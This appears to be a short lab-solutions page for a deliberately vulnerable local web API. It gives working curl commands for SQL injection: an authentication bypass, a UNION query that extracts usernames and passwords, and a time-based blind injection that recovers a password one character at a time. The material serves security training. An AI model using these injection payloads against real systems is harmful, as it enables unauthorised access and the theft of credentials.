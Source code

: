 # Lab Solutions

## SQLi Authentication Bypass

```bash
curl --location 'http://localhost:8080/api/users/login' \
--header 'Content-Type: application/json' \
--data '{
    "username": "admin'\'' --",
    "password": "wrongpassword"
}'
```

## Union Based SQLi

```bash
curl --location 'http://localhost:8080/api/users/admin'\'' UNION SELECT NULL, username, password, NULL FROM users --'
```

## Time Based Blind SQLi

```bash
curl --location 'http://localhost:8080/api/users/admin'\''%3B SELECT CASE WHEN (SUBSTR(password,1,1)='\''a'\'') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='\''admin'\'' --'```
```

Repeat until you get the whole password.

